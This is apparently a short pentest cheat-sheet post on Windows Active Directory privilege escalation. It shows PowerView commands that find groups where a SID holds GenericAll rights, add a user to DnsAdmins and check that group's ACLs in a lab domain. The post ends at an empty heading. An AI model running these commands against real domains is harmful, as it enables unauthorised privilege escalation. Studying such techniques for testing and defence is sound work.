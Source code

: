 ```yaml
---
title: Windows AD Domain Privilege Escalation
published: 2025-02-14
description: "Escalate Your Privilage In the Domain AD Environemant"
image: "./img/img.jpg"
tags: [Notes ,AD, windows]
category: 'Notes'
draft: false
---
```


# ACL - GenericAll on Group
## ACL - GenericAll on Group - DNSAdmin
```powershell
Get-DomainGroup -SamAccountName * -ResolveGUIDS | ? {($_.ActiveDirectoryRights -match 'GenericAll')}

Get-DomainGroup -SamAccountName * | ? {($_.ActiveDirectoryRights -match 'GenericAll') -and ($_.SecurityIdentifier -match 'S-1-5-21-1070240333-336889418-1185445934-1603')}

Get-DomainGroup -SamAccountName "DNSAdmins" | ? {($_.ActiveDirectoryRights -match 'GenericAll') -and ($_.SecurityIdentifier -match 'S-1-5-21-1070240333-336889418-1185445934-1603')}
```

## Add user to domain admins
```powershell
Add-DomainGroupMember -Identity 'DnsAdmins' -Members 'student1'

Get-DomainGroupMember -SamAccountName 'DnsAdmins'

Get-ObjectAcl -ResolveGUIDs | ? {($_.objectdn -eq "CN=DNSAdmins,CN=Users,DC=pentesting,DC=local")}

Get-ObjectAcl -SamAccountName "DNSAdmins" -ResolveGUIDs
```

## First of, let's get its distinguishedName
```powershell
Get-DomainGroup -SamAccountName "DNSAdmins"

Get-ObjectAcl -ResolveGUIDs | ? {($_.objectdn -eq "CN=DNSAdmins,CN=Users,DC=pentesting,DC=local") -and ($_.ActiveDirectoryRights -match 'GenericAll')}

Get-ObjectAcl -ResolveGUIDs | ? {($_.objectdn -eq "CN=DNSAdmins,CN=Users,DC=pentesting,DC=local") -and ($_.ActiveDirectoryRights -match 'GenericAll') -and ($_.SecurityIdentifier -match 'S-1-5-21-1070240333-336889418-1185445934-1603')}
```

## Add user to domain admins
